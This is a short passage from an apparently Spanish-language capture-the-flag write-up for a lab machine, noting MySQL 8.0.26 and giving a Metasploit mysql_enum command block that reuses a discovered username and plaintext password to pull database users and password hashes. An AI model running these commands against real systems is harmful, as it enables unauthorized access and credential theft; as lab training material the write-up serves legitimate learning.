 ![alt text](../assets/images/ICA1/image-14.png)

![alt text](../assets/images/ICA1/image-15.png)

Obtengo que la version de MySQL que esta corriendo en la maquina es la 8.0.26.

##### Enumeracion de mysql

Usaré el modulo mysql_enum para enumerar el puerto 3306 y obtener usuarios y hashes de conntraseñas, mediante el uso de las credenciales descubierta en la enumeracion del puerto 80.

```sh
use auxiliary/admin/mysql/mysql_enum
set username qdpmadmin
set password UcVQCMQk2STVeS6J
exploit
```
